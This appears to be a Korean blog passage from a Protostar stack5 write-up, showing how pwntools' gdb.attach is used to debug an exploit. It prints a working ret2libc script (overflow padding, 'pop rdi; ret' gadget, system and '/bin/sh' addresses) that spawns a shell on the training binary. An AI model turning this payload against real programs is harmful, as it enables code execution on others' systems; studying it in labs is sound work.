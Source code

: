 pwntools에서 제공하는 기능 중, gdb에 현재 프로세스를 attach하게 해주는 기능이 있다. 현재 프로세스의 pid를 가져와 그것을 gdb에게 주는 식의 매커니즘인데, 이를 사용하는 방법은 아래와 같다.

```python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gadget=ROP(libc)

libc_base=0x7ffff79e2000

gadget_offset = int((gadget.find_gadget(['pop rdi', 'ret'])[0]))
system_offset = int(libc.symbols['system'])
string_offset = int(list(libc.search(b'/bin/sh'))[0])

gadget_address=libc_base+gadget_offset
system_address=libc_base+system_offset
string_address=libc_base+string_offset

p = process('./stack5_64')

payload = b'A'*0x48+p64(gadget_address)+p64(string_address)+p64(system_address)

gdb.attach(p)

raw_input("1")

p.sendline(payload)

p.interactive()
```

`gdb.attach(process({program_name}))`를 이용해 스크립트에서 돌리는 프로그램에 gdb를 붙이도록 했고, gdb를 붙인 프로그램이 미처 반응하기도 전에 실행되고 끝나버리는 상황을 방지하기 위해 `raw_input(”1”)` 코드를 삽입했다. 위 스크립트를 실행하면 gdb 창이 뜨는데, 그때 브레이크 포인트를 설정하고 원래 터미널 창에 1을 입력한 후 gdb 창에서 `c` 를 누르면 디버깅을 할 수 있다.

브레이크 포인트 설정 시 콜스택을 잘 확인해야 한다. 이미 실행되었던 인스트럭션에 브레이크 포인트를 설정하는 바보짓은 절대 엄금이다! *그렇다. 내가 바로 그 바보다! 안녕하세요 반갑습니다 바보 1입니다*

`system` 함수는 `do_system` 함수를 콜하고, `do_system` 함수는 거의 끄트머리에서 `execve` 함수를 콜하면서 인자를 넘겨주는 형식이다. 즉, `do_system` 함수 내부로 들어갔을 때 `execve` 를 콜하기도 전에 SEGFAULT가 나는 이유를 알아내는 것이 현재 디버깅의 목적이다.

![Untitled](/assets/img/posts/protostar5/Untitled%2014.jpeg)
